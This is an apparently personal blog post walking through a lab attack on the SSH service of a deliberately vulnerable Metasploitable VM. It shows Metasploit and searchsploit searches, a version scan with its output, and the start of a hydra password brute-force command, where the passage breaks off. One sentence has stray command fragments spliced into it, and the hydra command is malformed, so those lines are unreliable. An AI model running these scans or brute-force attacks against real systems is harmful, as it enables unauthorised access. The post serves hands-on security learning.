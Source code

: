# More hacking!

This is a follow up of my last post on hacking that can be read [here](https://filimon-danopoulos.github.io/posts/2014-11-12_Metasploitable-1.html). 
This time I will try my hands on the next service running on port 22.

## The target

I will again target the same Metasploitable VM under the exact same circumstances as last time.
Running on port 22 it has (from the previous `nmap` scan tar I saved to the file `target`):

22/tcp open  ssh     OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)

## Hack away!

Since I have already scanned all the ports and know the version of the software I am targeting I have to find 
some kind of weakness to exploit.

### Scanning

A quick search in the Metasploit console gives me:

    msf > search ssh

    Matching Modules
    ================

       Name                                                        Disclosure Date  Rank       Description
       ----                                                        ---------------  ----       -----------
     auxiliary/dos/windows/ssh/sysax_sshd_kexchange              2013-03-17       normal     Sysax Multi-Server 6.10 SSHD Key Exchange Denial of Service
     auxiliary/fuzzers/ssh/ssh_kexinit_corrupt                                    normal     SSH Key Exchange Init Corruption
     auxiliary/fuzzers/ssh/ssh_version_15                                         normal     SSH 1.5 Version Fuzzer
     auxiliary/fuzzers/ssh/ssh_version_2                                          normal     SSH 2.0 Version Fuzzer
     auxiliary/fuzzers/ssh/ssh_version_corrupt                                    normal     SSH Version Corruption
     auxiliary/pro/apps/ssh_key                                                   normal     PRO: SSH Key Recycler
     auxiliary/pro/scanner/ssh/ssh_login_credential                               normal     SSH Public Key Login Scanner
     auxiliary/scanner/ssh/cerberus_sftp_enumusers               2014-05-27       normal     Cerberus FTP Server SFTP Username Enumeration
     auxiliary/scanner/ssh/ssh_enumusers                                          normal     SSH Username Enumeration
     auxiliary/scanner/ssh/ssh_identify_pubkeys                                   normal     SSH Public Key Acceptance Scanner
     auxiliary/scanner/ssh/ssh_login                                              normal     SSH Login Check Scanner
     auxiliary/scanner/ssh/ssh_login_pubkey                                       normal     SSH Public Key Login Scanner
     auxiliary/scanner/ssh/ssh_version                                            normal     SSH Version Scanner
     exploit/apple_ios/ssh/cydia_default_ssh                     2007-07-02       excellent  Apple iOS Default SSH Password Vulnerability
     exploit/linux/ssh/f5_bigip_known_privkey                    2012-06-11       excellent  F5 BIG-IP SSH Private Key Exposure
     exploit/linux/ssh/loadbalancerorg_enterprise_known_privkey  2014-03-17       excellent  Loadbalancer.org Enterprise VA SSH Private Key Exposure
     exploit/linux/ssh/quantum_dxi_known_privkey                 2014-03-17       excellent  Quantum DXi V1000 SSH Private Key Exposure
     exploit/linux/ssh/quantum_vmpro_backdoor                    2014-03-17       excellent  Quantum vmPRO Backdoor Command
     exploit/linux/ssh/symantec_smg_ssh                          2012-08-27       excellent  Symantec Messaging Gateway 9.5 Default SSH Password Vulnerability
     exploit/multi/http/gitlab_shell_exec                        2013-11-04       excellent  Gitlab-shell Code Execution
     exploit/multi/ssh/sshexec                                   1999-01-01       manual     SSH User Code Execution
     exploit/unix/ssh/array_vxag_vapv_privkey_privesc            2014-02-03       excellent  Array Networks vAPV and vxAG Private Key Privilege Escalation Code Execution
     exploit/unix/ssh/tectia_passwd_changereq                    2012-12-01       excellent  Tectia SSH USERAUTH Change Request Password Reset Vulnerability
     exploit/windows/local/trusted_service_path                  2001-10-25       excellent  Windows Service Trusted Path Privilege Escalation
     exploit/windows/ssh/freeftpd_key_exchange                   2006-05-12       average    FreeFTPd 1.0.10 Key Exchange Algorithm String Buffer Overflow
     exploit/windows/ssh/freesshd_authbypass                     2010-08-11       excellent  Freesshd Authentication Bypass
     exploit/windows/ssh/freesshd_key_exchange                   2006-05-12       average    FreeSSHd 1.0.9 Key Exchange Algorithm String Buffer Overflow
     exploit/windows/ssh/putty_msg_debug                         2002-12-16       normal     PuTTY Buffer Overflow
     exploit/windows/ssh/securecrt_ssh1                          2002-07-23       average    SecureCRT SSH1 Buffer Overflow
     exploit/windows/ssh/sysax_ssh_username                      2012-02-27       normal     Sysax 5.53 SSH Username Buffer Overflow
     post/linux/gather/enum_network                                               normal     Linux Gather Network Information
     post/multi/gather/ssh_creds                                                  normal     Multi Gather OpenSSH PKI Credentials Collection
     post/windows/gather/credentials/mremote                                      normal     Windows Gather mRemote Saved Password Extraction

This is a lot to take in and at first glance nothings seems applicable to my case. So instead of wasting time going through everything
I decided to only run `auxiliary/scanner/ssh/ssh_version` in order to verify that hte version I found earlier is valid.

    msf > use auxiliary/scanner/ssh/ssh_version  
    msf auxiliary(ssh_version) > show options

    Module options (auxiliary/scanner/ssh/ssh_version):

       Name     Current Setting  Required  Description
       ----     ---------------  --------  -----------
       RHOSTS                    yes       The target address range or CIDR identifier
       RPORT    22               yes       The target port
       THREADS  1                yes       The number of concurrent threads
       TIMEOUT  30               yes       Timeout for the SSH probe

    msf auxiliary(ssh_version) > set RHOSTS 192.168.56.103
    RHOSTS => 192.168.56.103
    msf auxiliary(ssh_version) > run

    [*] 192.168.56.103:22, SSH server version: SSH-2.0-OpenSSH_4.7p1 Debian-8ubuntu1
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
    
This verifies the version. Onwards to the next step!

### Searching

Nothinh fruitfull yet so I turn to the next tool, `searchsploit`.

    # searchsploit openssh
     Description                                                                         Path
    ---------------------------------------------------------------------------------- ----------------------------------
    OpenSSH/PAM <= 3.6.1p1 Remote Users Discovery Tool                                | /linux/remote/25.c
    OpenSSH/PAM <= 3.6.1p1 Remote Users Ident (gossh.sh)                              | /linux/remote/26.sh
    glibc-2.2 and openssh-2.3.0p1 exploits glibc => 2.1.9x                            | /linux/local/258.sh
    Dropbear / OpenSSH Server (MAX_UNAUTH_CLIENTS) Denial of Service                  | /multiple/dos/1572.pl
    OpenSSH <= 4.3 p1 (Duplicated Block) Remote Denial of Service Exploit             | /multiple/dos/2444.sh
    Portable OpenSSH <= 3.6.1p-PAM / 4.1-SUSE Timing Attack Exploit                   | /multiple/remote/3303.sh
    Debian OpenSSH Remote SELinux Privilege Elevation Exploit (auth)                  | /linux/remote/6094.txt
    Novell Netware 6.5 - OpenSSH Remote Stack Overflow                                | /novell/dos/14866.txt
    FreeBSD OpenSSH 3.5p1 - Remote Root Exploit                                       | /freebsd/remote/17462.txt
    OpenSSH 1.2 scp File Create/Overwrite Vulnerability                               | /linux/remote/20253.sh
    OpenSSH 2.x/3.0.1/3.0.2 Channel Code Off-By-One Vulnerability                     | /unix/remote/21314.txt
    OpenSSH 2.x/3.x Kerberos 4 TGT/AFS Token Buffer Overflow Vulnerability            | /linux/remote/21402.txt
    OpenSSH 3.x Challenge-Response Buffer Overflow Vulnerabilities (1)                | /unix/remote/21578.txt
    OpenSSH 3.x Challenge-Response Buffer Overflow Vulnerabilities (2)                | /unix/remote/21579.txt

Again nothing that seems directly applicaple so I scrap the idea of finding an exploit manually. 
At this stage I would apply a vulnerability scanner but I couldnt get openvas to function correctly so 
I decided to try a common SSH vulnerability. Bruteforcing!

### Bruteforcing

The number one tool for brute/root/Desktop/password.lst -vV 192.168.1.1 ftpforcing is probably `hydra ` so I will launch a bruteforce attack with it:

    # hydra -l -P /usr/share/john/password.lst -vV 192.168.56.103 ssh 
